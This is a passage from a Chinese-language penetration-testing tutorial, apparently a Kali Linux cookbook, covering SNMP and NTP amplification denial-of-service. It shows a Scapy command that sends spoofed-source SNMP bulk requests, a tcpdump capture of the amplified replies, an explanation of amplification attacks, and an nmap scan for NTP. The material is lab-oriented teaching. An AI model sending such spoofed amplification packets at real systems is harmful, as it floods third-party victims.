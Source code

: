 ```
>>> send(IP(dst="172.16.36.134",src="172.16.36.135")/ UDP(sport=161,dport=161)/SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist =[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1. 3.6.1.2.1.19.1.3'))])),verbose=1,count=2) 
. 
Sent 2 packets. 
```

`send()`函数应该用于发送这些伪造请求，因为响应返回预期不会给本地接口。 要确认载荷是否到达目标系统，可以使用 TCPdump 捕获传入流量：

```
admin@ubuntu:~$ sudo tcpdump -i eth0 -vv src 172.16.36.134 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes 
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp:  [len1468<asnlen2150] 
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp:  [len1468<asnlen2150] 
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp

4 packets captured 
4 packets received by filter 
0 packets dropped by kernel 
```

在所提供的示例中，TCPdump 配置为捕获`eth0`接口上，来自源 IP 地址`172.16.36.134`（SNMP 主机的 IP 地址）的流量。

### 工作原理

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

+   用于执行攻击的协议不验证请求源
+   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

SNMP 放大攻击的效率取决于 SNMP 查询的响应大小。 另外，可以通过使用多个 SNMP 服务器来增加攻击的威力。

## 6.6 NTP 放大 DoS 攻击

NTP 放大 DoS 攻击利用响应远程 monlist 请求的网络时间协议（NTP）服务器。 monlist 函数返回与服务器交互的所有设备的列表，在某些情况下最多达 600 个列表。 攻击者可以伪造来自目标 IP 地址的请求，并且漏洞服务器将为每个发送的请求返回非常大的响应。 在写这本书的时候，这仍然是一个常见的威胁，目前正在大规模使用。 因此，我将仅演示如何测试 NTP 服务器，以确定它们是否将响应远程 monlist 请求。 补丁程序可用于大多数 NTP 服务来解决此问题，并且任何有存在漏洞的设备应该修复或下线。

### 准备

为了确定是否可以利用 NTP 服务器执行 NTP 放大攻击，你需要有启用 NTP 的设备。 在提供的示例中，Ubuntu 用于托管 NTP 服务。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了确定远程服务器是否运行 NTP 服务，Nmap 可用于快速扫描 UDP 端口 123。 `-sU`选项可用于指定 UDP，然后可使用`-p`选项来指定端口 ：

```
root@KaliLinux:~# nmap -sU 172.16.36.224 -p 123

Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-24 18:12 EST 
Nmap scan report for 172.16.36.224 
Host is up (0.00068s latency). 
PORT    STATE SERVICE 
123/udp open  ntp 
MAC Address: 00:0C:29:09:C3:79 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```
